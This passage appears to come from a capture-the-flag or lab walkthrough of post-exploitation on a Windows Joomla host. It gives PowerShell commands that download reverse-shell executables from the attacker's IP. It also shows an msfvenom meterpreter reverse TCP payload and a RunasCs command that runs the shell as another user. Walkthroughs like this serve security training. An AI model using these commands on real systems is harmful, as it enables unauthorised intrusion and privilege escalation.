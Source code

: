 ```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.66:8082/shell.exe', 'C:\xampp\htdocs\joomla\templates\cassiopeia\shell.exe')

```
- Start meterpreter multi/handler listener on the same port and run the shell.exe on the target

- Download RunasCs:
<https://github.com/antonioCoco/RunasCs/releases/tag/v1.5>

- Upload RunasCs.exe to victim (from meterpreter session):

```bash
upload RunasCs.exe

```
- Create another meterpreter reverse shell on a different port and upload it:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.66 LPORT=4447 -f exe -o shell2.exe

(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.66:8082/shell2.exe', 'C:\Users\Public\Downloads\shell2.exe')

```
- Set up meterpreter multi/handler listener

- Run:

```bash
RunasCs.exe tstark <password>".\shell2.exe"

```

![image48](../resources/9738abff3bac4637a821f74eed19c902.png)

- We are user tstark:

![image49](../resources/09b3c1a6b9e24a7cae2cc8e3e9c2ef5f.png)

